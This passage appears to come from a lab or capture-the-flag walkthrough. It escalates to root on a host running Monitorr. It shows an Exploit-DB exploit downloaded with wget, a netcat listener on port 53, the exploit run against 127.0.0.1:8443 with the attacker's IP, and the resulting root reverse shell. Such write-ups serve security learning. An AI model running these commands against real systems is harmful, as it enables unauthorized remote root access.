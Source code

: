 ```

Linux kali 5.7.0-kali1-amd64 #1 SMP Debian 5.7.6-1kali2 (2020-07-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 22 13:45:30 2022 from 192.168.100.72
kali@kali:~$
```

Now on `127.0.0.1:8443` we see an application titled `Monitorr` and discover the following [exploit](https://www.exploit-db.com/exploits/48980).

We begin by downloading the exploit to our attacker machine.

```
kali@kali:~$ wget https://www.exploit-db.com/raw/48980
```

Now we start a listener.

```
root@kali:~# nc -nvlp 53
Listening on [any] 53 ...
```

Returning to our recently downloaded `python` script we execute it with the following parameters:

```
kali@kali:~$ python 48980 http://127.0.0.1:8443 192.168.100.44 53
```

We receive a response in our listener and have obtained `root` access.

```
root@kali:~# nc -nvlp 53
listening on [any] 53 ...
connect to [192.168.100.44] from (UNKNOWN) [192.168.100.72] 34976
root@erp:~/Monitorr/assets/data/usrimg# whoami
root
```

Close